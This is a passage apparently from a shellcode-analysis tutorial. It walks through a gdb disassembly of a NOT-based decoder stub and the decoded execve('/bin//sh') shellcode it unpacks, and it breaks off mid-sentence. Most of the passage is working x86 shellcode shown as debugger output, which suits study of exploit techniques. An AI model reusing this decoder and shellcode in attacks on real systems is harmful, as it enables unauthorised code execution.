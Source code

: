 ```
(gdb) break *0x0804a04c
```

at this point we know that our shellcode has been decoded entirely.
Let's continue

```
(gdb) c
Continuing.
```

```
(gdb) disassemble 
Dump of assembler code for function code:
   0x0804a040 <+0>:	jmp    0x804a04e <code+14>
   0x0804a042 <+2>:	pop    esi
   0x0804a043 <+3>:	xor    ecx,ecx
   0x0804a045 <+5>:	mov    cl,0x19
   0x0804a047 <+7>:	not    BYTE PTR [esi]
   0x0804a049 <+9>:	inc    esi
   0x0804a04a <+10>:	loop   0x804a047 <code+7>
=> 0x0804a04c <+12>:	jmp    0x804a053 <code+19>
   0x0804a04e <+14>:	call   0x804a042 <code+2>
   0x0804a053 <+19>:	xor    eax,eax
   0x0804a055 <+21>:	push   eax
   0x0804a056 <+22>:	push   0x68732f2f
   0x0804a05b <+27>:	push   0x6e69622f
   0x0804a060 <+32>:	mov    ebx,esp
   0x0804a062 <+34>:	push   eax
   0x0804a063 <+35>:	mov    edx,esp
   0x0804a065 <+37>:	push   ebx
   0x0804a066 <+38>:	mov    ecx,esp
   0x0804a068 <+40>:	mov    al,0xb
   0x0804a06a <+42>:	int    0x80
   0x0804a06c <+44>:	add    BYTE PTR [eax],al
End of assembler dump.
```

and as you may see this part

```
   0x0804a053 <+19>:	xor    eax,eax
   0x0804a055 <+21>:	push   eax
   0x0804a056 <+22>:	push   0x68732f2f
   0x0804a05b <+27>:	push   0x6e69622f
   0x0804a060 <+32>:	mov    ebx,esp
   0x0804a062 <+34>:	push   eax
   0x0804a063 <+35>:	mov    edx,esp
   0x0804a065 <+37>:	push   ebx
   0x0804a066 <+38>:	mov    ecx,esp
   0x0804a068 <+40>:	mov    al,0xb
   0x0804a06a <+42>:	int    0x80
   0x0804a06c <+44>:	add    BYTE PTR [eax],al
```
